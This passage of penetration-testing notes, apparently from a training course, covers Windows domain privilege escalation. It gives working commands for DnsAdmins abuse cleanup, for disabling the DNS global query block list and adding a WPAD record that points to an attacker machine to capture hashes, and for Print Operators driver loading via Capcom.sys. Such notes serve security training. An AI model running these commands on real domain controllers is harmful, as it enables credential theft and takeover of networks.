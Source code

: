 ```

#### Cleaning up

`C:\> reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll`

`C:\> sc.exe start dns`

`C:\> sc query dns`




#### Creating a WPAD Record

Another way to abuse DnsAdmins group privileges is by creating a WPAD record. Membership in this group gives us the rights to disable global query block security, which by default blocks this attack. Server 2008 first introduced the ability to add to a global query block list on a DNS server. By default, Web Proxy Automatic Discovery Protocol (WPAD) and Intra-site Automatic Tunnel Addressing Protocol (ISATAP) are on the global query block list. These protocols are quite vulnerable to hijacking, and any domain user can create a computer object or DNS record containing those names.

After disabling the global query block list and creating a WPAD record, every machine running WPAD with default settings will have its traffic proxied through our attack machine. We could use a tool such as Responder or Inveigh to perform traffic spoofing, and attempt to capture password hashes and crack them offline or perform an SMBRelay attack.

#### Disabling the Global Query Block List

`C:\> Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local`

#### Adding a WPAD Record

`C:\> Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address {attackers_machine}`





                
### Print Operators


Print Operators is another highly privileged group, which grants its members the SeLoadDriverPrivilege, rights to manage, create, share, and delete printers connected to a Domain Controller, as well as the ability to log on locally to a Domain Controller and shut it down. 

members of this group can load and unload device drivers on all domain controllers in the domain

Use Gui to spawn a administrator shell or bypass [UAC](https://github.com/hfiref0x/UACME) 

`C:\> whoami /priv`


the driver Capcom.sys contains functionality to allow any user to execute shellcode with SYSTEM privileges. We can use our privileges to load this vulnerable driver and escalate privileges. We can use [this](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp) tool to load the driver. The PoC enables the privilege as well as loads the driver for us.



```